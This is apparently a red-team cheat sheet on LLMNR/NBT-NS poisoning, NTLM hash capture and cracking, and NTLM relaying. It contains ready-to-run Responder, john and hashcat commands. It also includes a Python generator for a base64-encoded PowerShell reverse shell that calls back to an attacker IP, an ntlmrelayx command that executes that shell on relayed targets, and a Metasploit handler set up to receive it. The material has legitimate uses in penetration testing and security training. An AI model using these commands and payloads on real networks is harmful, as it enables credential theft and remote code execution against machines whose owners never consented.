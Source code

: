 ## LLMNR & NBT-NS Poisoning
- The victim wants to go to the print server at \\printserver, but mistakenly types in \\pintserver.
- The DNS server responds to the victim saying that it doesn’t know that host.
- The victim then asks if there is anyone on the local network that knows the location of \\pintserver.
- The attacker responds to the victim saying that it is the \\pintserver.
- The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
- The attacker can now crack the hash to discover the password.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen1.png?raw=true)

### Responder
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

## Network Windows Authentication Cracking
### NTLMv1 (Net-NTLMv1) Crack
```
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 (Net-NTLMv2) Crack
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## NTLM Relaying
- SMB Signing must be disabled, and this is the default setting except for the domain controllers.
- Relay the hashes to another machine.
- User must have admin access on this machine.

### Responder with SMB & HTTP Disabled (in Responder.conf)

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen2.png?raw=true)

```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

### Determine the machines that have SMB signing disabled

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen3.png?raw=true)

### Powershell Reverse Encoded Shell
```
import base64
ip = '10.10.12.133' # your reverse shell ip
port = 4444 # your reverse shell port
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print cmdline
```

### Run ntlmrelayx.py script and pass to it the encoded reverse shell.
```
git clone https://github.com/SecureAuthCorp/impacket
python3 ntlmrelayx.py -smb2support -tf targets.txt -of result -debug -c 'powershell -e EnCoDeDShElL'
```

### Metasploit multi handler to receive the shell.
```
msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost 10.0.2.15
set lport 4444
set ExitOnSession False
exploit -j
```

### Overall Process Overview
Machine 10.0.2.7 asks for an unknown host, then the attacker machine 10.0.2.15 responds to it with its own IP address, then machine 10.0.2.7 sends its credentials to the attacker machine 10.0.2.15 on port SMB, then the attacker machine takes these credentials and relays them to another machine 10.0.2.6, then machine 10.0.2.6 executed our reverse shell and the shell get back to us at 10.0.2.15.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen4.png?raw=true)
